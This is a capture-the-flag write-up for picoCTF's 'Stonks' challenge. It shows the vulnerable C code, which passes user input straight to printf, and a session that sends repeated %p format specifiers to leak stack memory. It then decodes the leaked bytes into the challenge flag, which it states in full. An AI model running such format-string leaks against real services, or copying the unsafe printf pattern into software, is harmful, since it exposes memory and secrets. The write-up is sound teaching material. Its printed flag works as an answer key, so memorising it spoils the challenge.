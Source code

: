 ### Problem Statement
```txt
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!

[vuln.c](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c)
`nc mercury.picoctf.net 59616`

```

---


If we run the command: `nc mercury.picoctf.net 59616`

```console
$ nc mercury.picoctf.net 59616
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
API
Buying stonks with token:
API
Portfolio as of Mon Jan 17 12:10:05 UTC 2022



2 shares of AXAR
1 shares of BA
2 shares of CDCN
6 shares of CP
1 shares of F
11 shares of VRQQ
60 shares of QUV
1132 shares of YY
Goodbye!
```

If we supply the API token as `%p` while running the `nc` command, we get:

```
What is your API token?
%p
Buying stonks with token:
0x89c13b0
```

Upon inspection of `vuln.c`, we find a clue on how we can exploit the program:

```c
// TODO: Figure out how to read token from file, for now just ask

char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);

// TODO: Actually use key to interact with API

view_portfolio(p);
```


Since the API token is printed, we can try and pass multiple `%p` to print pointers.


```console
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x92d43500x804b0000x80489c30xf7f95d800xffffffff0x10x92d21600xf7fa31100xf7f95dc7(nil)0x92d31800x20x92d43300x92d43500x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f7
9336e0x383431360x343565620xff81007d
```


So, the pointers text we got is:
```
0x92d43500x804b0000x80489c30xf7f95d800xffffffff0x10x92d21600xf7fa31100xf7f95dc7(nil)0x92d31800x20x92d43300x92d43500x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f7
9336e0x383431360x343565620xff81007d
```

Removing the text before `(nil)` because it's most probably padding of some sort.

```
0x92d31800x20x92d43300x92d43500x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f7
9336e0x383431360x343565620xff81007d
```

Removing the `0x`s from the string because it's most prob something like what we get to indicate hex strings/values.

```
92d3180292d433092d43506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3834313634356562ff81007d
```

Decode this using [`xxd`](https://linux.die.net/man/1/xxd)

```console
$ echo 92d3180292d433092d43506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3834313634356562ff81007d | xxd -p -r
����3   -CPocip{FTC0l_I4_t5m_ll0m_y_y3n841645eb��}
```


Encrypted flag:
```
ocip{FTC0l_I4_t5m_ll0m_y_y3n841645eb��}
```

We can get the flag by swapping the edianness @ [CyberChef](https://gchq.github.io/CyberChef/)

---
#### The Flag
    picoCTF{I_l05t_4ll_my_m0n3y_6148be54}


Link to the challenge: [Stonks](https://play.picoctf.org/practice/challenge/105)
